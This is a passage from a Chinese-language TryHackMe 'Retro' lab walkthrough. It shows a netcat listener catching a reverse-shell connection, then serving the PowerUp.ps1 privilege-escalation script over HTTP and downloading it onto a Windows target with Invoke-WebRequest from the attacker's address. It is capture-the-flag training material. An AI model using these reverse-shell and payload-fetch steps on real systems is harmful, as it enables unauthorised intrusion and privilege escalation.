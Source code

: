     ![alt text](/style/image/image-555.png)

    ```
    ┌──(kali㉿kali)-[~/桌面/THM/Retro]
    └─$ nc -nlvp 4444
    listening on [any] 4444 ...
    connect to [10.11.61.123] from (UNKNOWN) [10.10.98.216] 49999
    'uname' is not recognized as an internal or external command,
    operable program or batch file.
    ```

+ 常规shell脚本反弹shell失败，考虑RDP界面寻找漏洞

## 提权

+ 使用 PowerUp.ps1 枚举脚本来检查 Windows 目标机器，然后可以确定获得管理员访问权限的最佳方式并进行提权操作。

+ kali本机查找脚本：

```
┌──(kali㉿kali)-[~/桌面/THM/Retro]
└─$ find / -iname *PowerUp.ps1* 2>/dev/null
/home/kali/.cache/vmware/drag_and_drop/4bL2Mk/PowerUp.ps1
/home/kali/桌面/THM/steelmountion/PowerUp/PowerUp.ps1
/home/kali/桌面/THM/steelmountion/.PowerUp.ps1.swp
/home/kali/.local/share/Trash/files/THM/steelmountion/PowerUp/PowerUp.ps1
/home/kali/.local/share/Trash/files/THM/steelmountion/.PowerUp.ps1.swp
/usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1
/usr/share/powershell-empire/empire/server/data/module_source/privesc/PowerUp.ps1
                                                                                
┌──(kali㉿kali)-[~/桌面/THM/Retro]
└─$ cd /usr/share/windows-resources/powersploit/Privesc/
```

+ 目标机获取脚本:

```
┌──(kali㉿kali)-[/usr/share/windows-resources/powersploit/Privesc]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
```
# 目标机powershell

Invoke-WebRequest -Uri http://10.11.61.123:8000/PowerUp.ps1 -OutFile C:\Windows\System32\spool\drivers\color\PowerUp.ps1
```